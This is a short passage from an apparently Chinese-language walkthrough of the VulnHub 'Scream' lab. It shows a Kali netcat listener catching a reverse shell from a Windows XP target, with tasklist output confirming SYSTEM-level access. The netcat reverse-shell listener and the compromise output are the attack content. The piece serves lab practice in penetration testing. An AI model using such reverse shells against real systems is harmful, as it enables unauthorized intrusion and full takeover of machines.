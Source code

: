 并监听1235

```shell
┌──(root㉿kali)-[~/vulnhub/scream]
└─# rlwrap nc -lvnp 1235
listening on [any] 1235 ...
connect to [192.168.27.3] from (UNKNOWN) [192.168.27.7] 1134
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>tasklist /V | findstr SYSTEM
cmd.exe  3196  Console   0   2,472 K Running   NT AUTHORITY\SYSTEM   0:00:00 C:\WINDOWS\system32\cmd.exe
```

成功拿到SYSTEM权限

> 这是第一次打windows机器，哈哈
